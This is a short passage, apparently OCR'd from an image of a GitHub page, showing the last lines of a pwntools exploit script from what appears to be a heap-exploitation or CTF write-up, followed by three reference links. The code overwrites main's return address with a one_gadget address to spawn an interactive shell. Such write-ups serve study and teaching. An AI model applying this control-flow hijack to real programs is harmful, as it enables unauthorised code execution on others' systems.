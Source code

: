 ```python

    edit(2, p64(main_ret_addr))

    # overwrite main_ret_addr with one_gadget addr

    edit(1, p64(one_gadget_addr))

    p.interactive()





if __name__ == "__main__":

    run()

```







## references


- https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606

- https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf

- https://bbs.pediy.com/thread-226119.htm
